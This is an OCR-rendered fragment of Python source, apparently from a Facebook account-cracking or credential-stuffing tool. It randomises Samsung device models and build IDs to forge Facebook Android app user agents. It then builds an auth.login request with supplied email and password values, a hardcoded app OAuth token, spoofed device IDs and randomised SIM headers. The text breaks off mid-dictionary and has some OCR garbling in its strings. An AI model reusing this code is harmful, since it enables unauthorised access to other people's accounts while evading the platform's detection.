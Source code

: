                                 xxxxx=(f"GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (linex; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/es_CU;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {"adid": "9e0f3002-43fc-4358-89f1-5622b403d502",
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source":"device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"es_CU","client_country_code":"CU",
                                        'device':gtt,
                                        "device_id":"6e18861e-d578-4cfb-8728-528f1e4b90e7",
                                        "method":"auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'User-Agent': 'Dalvik/2.1.0 Linux; U; Android 6.0.0; GT-I9300I Build/KTU84P) [FBAN/FB4A;FBAV/540.0.0.84.626;FBBV/169717250;FBDM/{density=4.0,width=1532,height=2560};FBLC/en_US;FBCR/Grameenphone;FBMF/samsung;FBBD/samsung;FBPN/com.facebook.katana;FBDV/GT-I9300I;FBSV/6.0.0;FBCA/armeabi-v7a:armeabi;]',
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),